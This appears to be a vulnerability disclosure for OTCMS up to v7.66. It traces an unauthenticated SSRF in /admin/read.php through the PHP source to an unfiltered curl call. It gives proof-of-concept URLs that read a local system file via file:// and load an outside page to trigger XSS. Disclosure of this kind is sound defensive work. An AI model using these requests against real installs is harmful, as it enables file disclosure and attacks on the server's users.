



# OTCMS has an unauthorized SSRF vulnerability at /admin/readDeal.php?mudi=announContent
File path: /admin/read.php
Line number range: 181-192
Function name: AnnounContent()

OTCMS PHP version is based on PHP+MySQL technical architecture with UTF-8 encoding. It is not only suitable for a wide range of news/article publishing websites, blogs, resource websites, entertainment websites, but also for corporate websites.

Vulnerability description: Version: <=v7.66

Source code download address:
https://gitee.com/idccms/otcms/releases

Reproduction environment:
windows11,php7.3.4nts,MYSQL5.7.26

Backend directory uses default admin



Code analysis:
File path /admin/read.php can be accessed without any permission check
Control input parameter $mudi=announContent to trigger AnnounContent() function
```
$mudi = trim(''. @$_GET['mudi']);

switch ($mudi){
	case 'exitTimeDiff':
		ExitTimeDiff();
		break;

	case 'getKeyWord':
		getKeyWord();
		break;

	case 'getSignal':
		GetSignal();
		break;

	case 'getSignalSec':
		GetSignalSec();
		break;

	case 'checkCollUrl':
		CheckCollUrl();
		break;

	case 'announContent':
		AnnounContent();
		break;

	case 'announBlank':
		AnnounBlank();
		break;

	case 'announNoUpdate':
		AnnounNoUpdate();
		break;

	case 'creatWeb':
		CreatWeb();
		break;

	case 'selUserBox':
		SelUserBox();
		break;

	case 'createUserBox':
		CreateUserBox();
		break;

	default:
		die('err');
}
```
Here receives url parameter, passes to ReqUrl::UseAuto(0, 'GET', $url)
```
function AnnounContent(){
	require(OT_ROOT .'inc/classReqUrl.php');

	$url = trim(@$_GET['url']);

	$retArr	= ReqUrl::UseAuto(0, 'GET', $url);
	if ($retArr['res']){
		echo($retArr['note']);
	}else{
		echo('<center style="margin-top:85px;font-size:14px;">检测到该空间访问网钛官网异常，故不自动访问，您可以<a href="'. $url .'">手动刷新访问</a></center>');
	}
}
```
File path: /inc/classReqUrl.php, when input parameter $seMode=0, it will enter the default branch and call the UseCurl function
```
public static function UseAuto($seMode, $method, $url, $charset='UTF-8', $dataArr=array(), $retMode=''){
		$retArr = array('res'=>false, 'note'=>'');

		switch ($seMode){
			case 1:	// Snoopy插件
				$retArr = self::UseSnoopy($method, $url, $charset, $dataArr);
				break;
		
			case 2:	// curl模式
				$retArr = self::UseCurl($method, $url, $charset, $dataArr);
				break;
		
			case 3:	// fsockopen模式
				$retArr = self::UseFsockopen($method, $url, $charset, $dataArr);
				break;

			case 4:	// fopen模式
				$retArr = self::UseFopen($method, $url, $charset, $dataArr);
				break;

			default :
				if (extension_loaded('curl')){
					$retArr = self::UseCurl($method, $url, $charset, $dataArr);
					//echo('curl['. $retArr['note'] .']<br />');
				}
				if ($retArr['res'] == false && function_exists('stream_socket_client')){
					$retArr = self::UseSnoopy($method, $url, $charset, $dataArr);
					//echo('Snoopy['. $retArr['note'] .']<br />');
				}
				if ($retArr['res'] == false && function_exists('fsockopen')){
					$retArr = self::UseFsockopen($method, $url, $charset, $dataArr);
					//echo('fsockopen['. $retArr['note'] .']<br />');
				}
				if ($retArr['res'] == false && (ini_get('allow_url_fopen') == 1 || strtolower(ini_get('allow_url_fopen')) == 'on')){
					$retArr = self::UseFopen($method, $url, $charset, $dataArr);
					//echo('fopen['. $retArr['note'] .']<br />');
				}
				break;
		}

		if ($retMode == 'res'){
			return $retArr['res'];
		}elseif ($retMode == 'note'){
			return $retArr['note'];
		}else{
			return $retArr;
		}
	}
```
The url parameter is passed in without any filtering on the url parameter, and curl_exec($ch) is executed directly, causing SSRF. It also loads page resources from the corresponding url, and outputs the content directly to the HTML page, causing XSS

```
	// 获取页面源代码2 curl模式
	public static function UseCurl($method, $url, $charset='UTF-8', $dataArr=array(), $run301=true){
		if (empty($url)){
            return array('res'=>false, 'note'=>'UseCurl：网址为空');
		}

		$ch = curl_init();
		curl_setopt($ch, CURLOPT_USERAGENT,'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36');
		curl_setopt($ch, CURLOPT_URL, $url);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
		curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 80);	// 响应时间
		curl_setopt($ch ,CURLOPT_TIMEOUT, 150);			// 设置超时
		// 使用的HTTP协议，CURL_HTTP_VERSION_NONE（让curl自己判断），CURL_HTTP_VERSION_1_0（HTTP/1.0），CURL_HTTP_VERSION_1_1（HTTP/1.1）
		curl_setopt($ch, CURLOPT_HTTP_VERSION, CURL_HTTP_VERSION_1_0);
		// curl_setopt($ch, CURLOPT_MAXREDIRS,20);		// 允许跳转多少次
		// curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);	// 自动抓取301跳转后的页面
		if (substr(strtolower($url),0,8) == 'https://'){
			curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);	// 跳过证书检查
			curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 2);		// 从证书中检查SSL加密算法是否存在
		}
		if (strtoupper($method) == 'POST'){
			if (is_array($dataArr)){
				$newData = http_build_query($dataArr);	// 相反函数 parse_str()
			}else{
				$newData = $dataArr;
			}
			curl_setopt($ch, CURLOPT_POST, 1);
			curl_setopt($ch, CURLOPT_POSTFIELDS, $newData);
		}
        //调用crurl方法
		$data = curl_exec($ch);

		// 检查是否有错误发生
        //如果有错将会默认不解析目标资源,只提供网址
		if(curl_errno($ch)){ return array('res'=>false, 'note'=>'UseCurl：发生错误（'. curl_error($ch) .'）'); }

		// 检查HTML返回状态
		$headArr = curl_getinfo($ch);

		curl_close($ch);

		if ($run301 && in_array($headArr['http_code'],array(301,302))){
			return self::UseCurl($method, $headArr['redirect_url'], $charset, $dataArr, false);
		}
		// if($headArr['http_code'] != 200){ return array('res'=>false, 'note'=>'UseCurl：返回状态'. $headArr['http_code']); }

		if (strlen($data) == 0){ return array('res'=>false, 'note'=>'UseCurl：获取内容为空'); }

		$siteCharset = strtoupper(OT_Charset);
		if ($siteCharset=='GB2312'){ $siteCharset='GBK'; }
		if ($charset != $siteCharset){
			$data = iconv($charset,OT_Charset .'//IGNORE',$data);
		}
		return array('res'=>true, 'note'=>$data);
	}
```

Vulnerability impact:
1. Read local files:
/admin/read.php?mudi=announContent&url=file:///C:/Windows/System32/drivers/etc/hosts

2. Read external files XSS
/admin/read.php?mudi=announContent&url=https://cryingtor.top/index.html
<script>alert('test')</script>

